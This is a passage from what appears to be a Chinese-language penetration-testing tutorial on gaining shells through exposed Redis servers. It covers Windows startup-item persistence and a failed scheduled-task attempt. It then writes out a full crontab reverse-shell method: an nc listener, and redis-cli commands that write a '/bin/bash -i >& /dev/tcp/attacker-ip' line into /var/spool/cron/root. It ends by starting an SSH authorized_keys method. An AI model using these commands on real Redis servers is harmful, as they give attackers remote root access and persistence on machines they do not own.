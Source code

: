 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637671875105-d841b053-911c-4542-b600-8c61e57578b3.png#clientId=u7c60ad7c-68e7-4&from=paste&id=u7adcc035&margin=%5Bobject%20Object%5D&name=image.png&originHeight=211&originWidth=1277&originalType=binary&ratio=1&size=59336&status=done&style=none&taskId=u5430ff56-412c-4aa4-b807-dfe32cb09d9)

4）可以看到目标机的启动项下成功启动lin.bat文件

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637670125433-ca601d0d-bc6b-4d79-8709-deb3df01625f.png#clientId=uf518f69f-ca34-4&from=paste&height=117&id=u65d888f7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=156&originWidth=867&originalType=binary&ratio=1&size=25527&status=done&style=none&taskId=u29b71645-b288-4171-81d1-001f5b28baa&width=650)

5）重启之后，获得shell

![image](https://user-images.githubusercontent.com/84888757/173838982-371d39a1-aa66-4aa1-8823-f570eda63e45.png)


### 3、计划任务（失败）
问题记录：

- windows在命令行执行计划任务，会将任务名`shell`保存至`C:/Windows/System32/Tasks`文件夹下，shell文件中正常会是个`xml`文件，而通过写文件的方式，只是将创建计划任务的命令写入文件`shell`中，如何执行命令？
- 按如下步骤写入`bat`文件和计划任务命令行文件，发现`bat`文件中包括了`powershell`一句话以及计划任务命令？？？
- 考虑写计划任务那一步直接写入xml文件？


## 4.2 Linux
### 4.2.1 利用crontab 计划任务反弹shell
条件：centos

原因:
**这是由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败**

（1）使用vps进行监听：
```bash
nc -lvvp 1234
```

（2）进入redis命令执行界面，写入反弹shell： `redis-cli -h 靶机ip`
```bash
auth 密码			# 若不是未授权，可使用此条命令进行弱口令登录；若是未授权漏洞则忽略此条命令。

# 星号表示的是计划任务的时间
set test "\n* * * * * /bin/bash -i >& /dev/tcp/攻击方ip/1234 0>&1\n"

config set dir /var/spool/cron/
config set dbfilename root

save
```
过一分钟左右可以收到反弹的shell，但是这里需要注意的是，只适用于centos上开启的服务，ubuntu上不行。

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637572431899-c75dd18b-f97b-444b-bb72-a74fcfbd584a.png#clientId=u9e20ed45-5375-4&from=paste&height=100&id=u8a507155&margin=%5Bobject%20Object%5D&name=image.png&originHeight=133&originWidth=548&originalType=binary&ratio=1&size=37591&status=done&style=none&taskId=uea136dec-6dce-4db4-ba52-ae08d70cce0&width=411)

### 4.2.2 SSH密钥登录
#### 1、漏洞原理
在数据库中插入一条数据，将本机的公钥作为value，key值随意，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys，把缓冲的数据保存在文件里，这样就可以在靶机端的/root/.ssh下生成一个授权key
